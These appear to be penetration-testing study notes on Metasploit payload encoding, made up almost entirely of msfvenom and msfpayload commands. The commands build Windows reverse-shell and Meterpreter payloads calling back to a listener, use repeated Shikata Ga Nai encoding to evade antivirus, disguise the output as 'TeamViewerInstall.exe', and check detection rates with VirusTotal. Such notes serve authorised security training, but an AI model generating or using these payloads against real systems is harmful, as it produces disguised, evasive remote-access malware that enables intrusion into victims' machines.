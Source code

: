 
- x64
- x86
- sparc
- ppc
- mips

SGN - Shikata Ga Nai
- Hard to detect after encoded

Payload generation before 2015:
```shell-session
msfpayload windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 R | msfencode -b '\x00' -f perl -e x86/shikata_ga_nai
```

Payload generation after 2015 (msfvenom) WITHOUT ENCODING:
```shell-session
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl
```

Payload generation WITH ENCODING:
```shell-session
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```


```shell-session
set payload 15
```
```shell-session
show encoders
```


This will get detected by AV due to 1 iteration of encoding:
```shell-session
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```

More iteration = harder to detect:
```shell-session
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```


VirusTotal API with metasploit:
```shell-session
msf-virustotal -k <API key> -f TeamViewerInstall.exe
```

